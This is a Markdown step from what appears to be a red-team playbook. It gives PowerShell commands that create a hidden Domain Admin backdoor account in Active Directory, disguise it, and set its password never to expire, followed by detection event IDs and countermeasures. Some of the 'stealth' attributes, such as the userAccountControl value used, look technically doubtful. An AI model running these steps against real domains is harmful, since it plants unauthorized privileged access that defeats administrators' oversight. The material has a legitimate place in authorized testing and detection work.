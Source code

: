 
# Step 3: Create Stealthy Domain Admin Backdoor

**Objective**: Create a hidden domain admin account for persistent access, even if the primary beacon is lost or discovered.

---

## Context

- Red Team has direct control of the Domain Controller (`infra-dc1`)
- Goal is to ensure long-term access via stealthy privileged account

---

## Execution

### 1. Create New Domain Admin Account

```powershell
New-ADUser -Name "ServiceAccount" -SamAccountName "svc_account" -UserPrincipalName "svc_account@domain.com" -AccountPassword (ConvertTo-SecureString "ComplexPassword123!" -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "Domain Admins" -Members "svc_account"
```

### 2. Apply Stealth Attributes

```powershell
Set-ADUser -Identity "svc_account" -Replace @{msExchHideFromAddressLists=$true}
Set-ADUser -Identity "svc_account" -AccountNotDelegated $true
Set-ADUser -Identity "svc_account" -Add @{userAccountControl=2097152}
Set-ADUser -Identity "svc_account" -Description "Windows System Service Account"
Set-ADUser -Identity "svc_account" -PasswordNeverExpires $true
```

(Optional) Move to obscure OU:
```powershell
Move-ADObject -Identity "CN=ServiceAccount,CN=Users,DC=domain,DC=com" -TargetPath "OU=System,DC=domain,DC=com"
```

---

## Result

- Stealthy domain admin account (`svc_account`) created
- Hidden from common user discovery mechanisms
- Persistent access guaranteed even if primary accounts are removed

---

## Detection Opportunities

| Event ID | Description |
|----------|-------------|
| 4720     | New domain user creation |
| 4728     | Added to Domain Admins group |
| PowerShell logs | Administrative account operations |

---

## Defensive Countermeasures

- Alert on new accounts added to Domain Admins
- Monitor changes to high-privileged groups and non-standard OUs
- Audit for accounts hidden from GAL or marked non-delegable
